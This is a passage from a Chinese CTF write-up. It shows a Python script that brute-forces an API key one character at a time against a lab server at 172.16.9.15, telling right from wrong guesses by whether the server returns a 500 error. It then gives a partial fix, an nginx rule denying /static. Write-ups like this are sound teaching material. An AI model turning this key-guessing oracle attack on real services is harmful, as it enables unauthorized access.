 得到长度为30。

#### 爆破key

使用相同的逻辑，依次爆破key的每一位，并且在后续添加全数字，如果该位key正确则会继续加密后一位的数字导致500，否则返回`{result: False}`。

```python
import requests
import string
import json
url = &#34;http://172.16.9.15:6081/api/check/&#34;
header = {
	&#39;Accept&#39;: &#39;application/json, text/javascript, */*; q=0.01&#39;,
	&#39;X-Requested-With&#39;: &#39;XMLHttpRequest&#39;,
	&#39;User-Agent&#39;: &#39;Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36&#39;,
	&#39;Content-Type&#39;: &#39;application/json&#39;,
	&#39;Origin&#39;: &#39;http://172.16.9.15:6081&#39;,
	&#39;Referer&#39;: &#39;http://172.16.9.15:6081/login&#39;,
	&#39;Accept-Encoding&#39;: &#39;gzip, deflate&#39;,
	&#39;Accept-Language&#39;: &#39;zh-CN,zh;q=0.9&#39;
}
data = {
	&#39;key&#39;: []
}
for i in range(255):
	data[&#39;key&#39;] = [&#39;S&#39;, &#39;Q&#39;, &#39;D&#39;, &#39;6&#39;, &#39;8&#39;, &#39;u&#39;, &#39;i&#39;, &#39;y&#39;, &#39;o&#39;, &#39;6&#39;, &#39;k&#39;, &#39;d&#39;, &#39;K&#39;, &#39;r&#39;, &#39;w&#39;, &#39;9&#39;, &#39;m&#39;, &#39;d&#39;, &#39;1&#39;, &#39;L&#39;, &#39;3&#39;, &#39;n&#39;, &#39;J&#39;, &#39;3&#39;, &#39;1&#39;, &#39;E&#39;, &#39;x&#39;, &#39;0&#39;, &#39;F&#39;]
    #这里我来不及调了，直接手动一个一个往里面放的
	j = len(data[&#39;key&#39;])
	data[&#39;key&#39;].append(chr(i))
	for i in range(30-j-1):
		data[&#39;key&#39;].append(1)
	print(data[&#39;key&#39;])
	resp = requests.post(url, headers = header, data = json.dumps(data))
	if resp.content[0] != 123:
		break
```

最终在该环节关闭的5分钟前解出了该题flag。~~我要是会web我会是这个鸟样子？~~

## 漏洞修复

这里修了上面发现的3个洞，但是应该修错了或是有剩下的洞没有发现，次数用完了也没有防御成功。仅提供修复思路作为参考。

### 漏洞点1

修改`nginx.conf`

```nginx
location /static {
	deny all ;
}
```
